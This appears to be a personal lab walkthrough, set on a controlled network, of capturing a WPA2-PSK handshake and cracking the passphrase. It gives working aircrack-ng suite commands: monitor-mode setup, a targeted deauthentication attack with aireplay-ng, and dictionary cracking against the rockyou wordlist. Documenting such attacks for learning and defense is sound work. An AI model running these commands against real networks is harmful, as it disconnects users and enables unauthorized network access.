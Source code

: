 
> [!info]
> This was performed on a controlled network, meaning everything performed was both legal and ethical.

This walkthrough does not contain in-depth explanations of every tool used.  For references to the tools used, see my [Wireless Cheatsheet](../Tools/Wireless%20Cheatsheet.md).

## Overview
---
WPA2-PSK (also known as WPA2-Personal) is one of the most commonly used types Wi-Fi network authentication -- most common in home or public settings.

The PSK stands for "Pre-Shared Key", meaning authentication is handled via a single pre-shared passphrase, aka a static password.  All devices and users connecting to the network must know and use this passphrase.

This means for authentication, a bad actor must capture the handshake between an end-user and the network, then crack that handshake to acquire the network's password.

## Capturing the WPA Handshake
---

```bash
# View Current WiFi Driver
sudo airmon-ng
# Create Monitor Interface
sudo airmon-ng start <interface>
```

![[Pasted image 20231015005332.png]]

With the monitor interface configured, next I began sniffing the network to find what networks are available.

```shell
# See available networks/channels/security
sudo airodump-ng <mon_interface>
```
*(In this case, my monitor interface is wlan0mon)*

![[Pasted image 20231015185528.png]]

This revealed the SSID of the WPA2-PSK network, that it's on channel 4, and that the MAC address is "02:13:37:BE:EF:03".

With this knowledge, I restarted my "airodump" listener, refining it to focus specifically on the target network.

```shell
sudo airodump-ng --bssid "02:13:37:BE:EF:03" -c 4 --write "<network_ssid>" wlan0mon
```

In a separate terminal, I validated that the network was vulnerable to a deauth attack before performing the actual attack.

```shell
# Perform an injection test
sudo aireplay-ng -9 -a "02:13:37:BE:EF:03" wlan0mon

# Perform a de-authentication attack
sudo aireplay-ng --deauth 100 -a "02:13:37:BE:EF:03" wlan0mon
```

![[Pasted image 20231015185859.png]]

![[Pasted image 20231015185925.png]]

After performing the de-authentication attack, I was able to capture a WPA handshake.

![[Pasted image 20231015190024.png]]

After capturing the WPA handshake, I closed my "airodump" listener and disabled my monitor interface.

![[Pasted image 20231015175905.png]]


## Cracking the Passphrase
---

With the WPA handshake captured, I was able to crack the passphrase by using "aircrack-ng" -- feeding the "airodump" capture as the target and "rockyou.txt" to it as the wordlist.

```shell
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt ./<network_ssid>-01.cap
```

![[Pasted image 20231015190419.png]]

```
Passphrase: 1q2w3e4r
```
